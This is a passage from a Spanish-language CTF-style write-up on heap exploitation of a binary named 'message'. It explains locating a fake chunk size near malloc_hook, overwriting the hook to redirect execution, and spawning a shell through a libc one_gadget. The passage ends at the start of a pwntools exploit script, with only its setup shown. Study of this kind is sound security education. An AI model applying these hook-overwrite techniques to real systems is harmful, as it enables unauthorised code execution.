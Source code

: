 

<p>&nbsp;si revisamos en malloc_hook -16 tenemos un null quadword… Por tanto debemos buscar un size apropiado cerca de malloc_hook. Una cosa importante de mencionar, es que malloc no revisa el alineamiento de las direcciones en la llamada por tanto si “desreferenciamos” alguna dirección con un tamaño apropiado, podremos usarla, obviamente también hay magias de pwndbg que nos permiten encontrar un 7f size, cerca de malloc hook<br></p>



<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/aGd9nX1xh6qd_LeKJl1vg4hkpDXjQ5KDeeLmhV-BTlO4XcXh40H5JqcZjf3RH4nDIEqPCHDIWEPuiyW1T_5yyF1F2aMtQ0d-xbRmZ_GTKX2Y7R70D1x1-IFYJ3ENuoofyvfNwyeH" alt="" /></figure>



<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/NnYnw0OiCNnWD0jHtvanklXaimMXpyP0D9T1fSavjB-kRgEkXqsDUnUmmTurquYeyKqEB8YGEeAne_GyYam8HB53PjHt6VjbIEiiU5ypGMJHvZlnn8HB7mo4BjDwV53yU6LbFbbv" alt="" /></figure>



<p>Modificamos nuestro payload para calzar con el offset a nuestro fake size<br></p>



<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/msVyo0ZGpPAfWpviAJjVEJaRoOyAyUab5rbPVk4bymkI05VQ8WTDKJclzHThLWNIuiZGUYTsbOWo7jMM6PJ3njK_V8Fryc0gG8y57x0qXoDlDZ43WLvyZzs2y8B6O7A1nC4pCdcj" alt="" /></figure>



<p>Y modificamos nuestra llamada que sobreescribirá malloc con algún valor<br></p>



<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/acdPWNNsUT3DZEN0Eu4KUXqrV9Omh8xaX5ZDi9AgKZSHObmEvi7XSqYFUr6KSsnRW61un6wOJRwvFN8wekb1pHLO94P4h-146O1u-wRMco0TeoV9d2XLU00jKrdtz4RzuR6uzhNb" alt="" /></figure>



<p>Ejecutamos y vemos que podemos sobreescribir el hook sin problemas y redirigir el flujo del programa<br></p>



<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/qGgFlW0n39k2kzinN5hpE8f-Q86VA1cEY5g0tKRcwKeb2CET0JuyfPWCOJKg8Is98meaTIWKPqzVEO_l0mLXz9yAGFXP-lU2mkI6Sc2ES5mgQY5zCev9FlX9OnBwh-txiOYX8A-p" alt="" /></figure>



<p>Con esto solo nos queda solo ver como obtener una shell, esta vez fue sencillo, usamos un one_gadget dentro de libc que buscamos con la herramienta del mismo nombre<br></p>



<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/mSN82czasednuGUxg0_1Qox1SNrNy9jPcWxw6IbLjGk02NZ5FO0JFqkaJRxZjVLUowU2SyP_8UQgCvbTxfJOzHz5ZWDDvfApyPtzTZUJPDcWr0oPyziOASBzEiPpJ_21DriEumQB" alt="" /></figure>



<figure class="wp-block-image"><img src="https://lh5.googleusercontent.com/BGbhiwpOi-OBU9fOS7FuNKfwGDm5DiW_Tmq-EVvv4lNcmqLaLtrn2TJaO-dQoT61nlsyY5MC0F0G7tXieXpas8Woij2dT_jIKwOiwJpMxrNtLWclepGCkoGYmWkqxJxru7Ltb4Es" alt="" /></figure>



<p>Y obtenemos una shell luego de llamar a malloc nuevamente, acá el exploit final:</p>



<pre class="wp-block-code"><code>#!/usr/bin/python3
from pwn import *
#binary setup
elf = context.binary = ELF('./message')
context.terminal = ['tmux', 'splitw', '-hp', '70']
gs = '''
continue
'''
libc = elf.libc
index = 0
def start():
    if args.GDB:
        return gdb.debug('./message', gdbscript=gs)
    if args.REMOTE:
        return remote('127.0.0.1', 5555)
    else:
        return process('./message')
#add a message